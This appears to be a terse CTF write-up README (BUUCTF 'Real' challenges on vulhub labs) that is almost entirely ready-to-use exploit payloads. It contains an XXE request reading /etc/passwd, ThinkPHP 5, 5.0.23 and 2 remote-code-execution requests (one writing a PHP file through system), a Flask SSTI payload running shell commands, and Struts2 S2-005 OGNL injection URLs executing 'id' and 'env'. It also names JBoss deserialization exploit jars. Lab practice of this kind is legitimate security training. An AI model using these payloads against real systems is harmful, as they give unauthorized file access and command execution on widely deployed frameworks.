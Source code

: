 # BUUCTF-Real

- [PHP-XXE](#PHP-XXE)
- [ThinkPHP-5-Rce](#ThinkPHP-5-Rce)
- [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
- [ThinkPHP-2-Rce](#ThinkPHP-2-Rce)
- [Flask-SSTI](#Flask-SSTI)
- [s2-005](#s2-005)


## PHP-XXE

https://github.com/vulhub/vulhub/tree/master/php/php_xxe

![image](./img/php-xxe.png)


```
POST /dom.php HTTP/1.1
Host: node4.buuoj.cn:28445
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在当前phpinfo页面搜索flag即可
## ThinkPHP-5-Rce

http://node4.buuoj.cn:29286/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

flag{8f351e17-388e-4076-93b5-30fce230b2b7}

## ThinkPHP-5.0.23-Rce

```
POST /index.php?s=captcha HTTP/1.1
Host: node4.buuoj.cn:26600
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > test.php
```

http://node4.buuoj.cn:26600/test.php

搜索flag即可

## ThinkPHP-2-Rce

```
http://node4.buuoj.cn:27704/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

## Flask-SSTI


http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

## s2-005

输出id命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27id%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

输出env命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27env%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

## CVE-2017-12149

jboss反序列化_CVE-2017-12149.jar

## CVE-2017-7504


## JMXInvokerServlet-deserialization

jboss反序列化_CVE-2017-12149.jar